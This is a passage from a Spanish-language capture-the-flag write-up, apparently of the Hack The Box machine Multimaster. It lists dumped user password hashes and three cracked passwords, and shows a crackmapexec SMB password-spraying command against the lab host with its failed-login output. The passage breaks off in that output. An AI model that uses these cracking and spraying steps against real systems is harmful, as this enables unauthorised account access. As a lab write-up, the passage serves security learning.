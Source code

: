 ```bash
aldom:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
alyx:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
ckane:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
cyork:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
egre55:cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
ilee:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
james:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
jorden:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
kpage:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
minatotw:cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
nbourne:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
okent:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
rmartin:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
sbauer:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
shayna:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
zac:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
zpowers:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
```

Usaremos `hashcat` para crackear los hashes, y logramos obtener 3 contraseñas.

```bash
password1
finance1
banking1
```


Ya que tenemos una lista de usuarios y contraeñas probamos a validar si alguna de ellas es valida con `crackmapexec` y nos reprota que ninguna es valida.

```bash
❯ crackmapexec smb 10.10.10.179 -u users.txt -p passwords --continue-on-success
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:finance1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:banking1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\andrew:password1 STATUS_LOGON_FAILURE 
```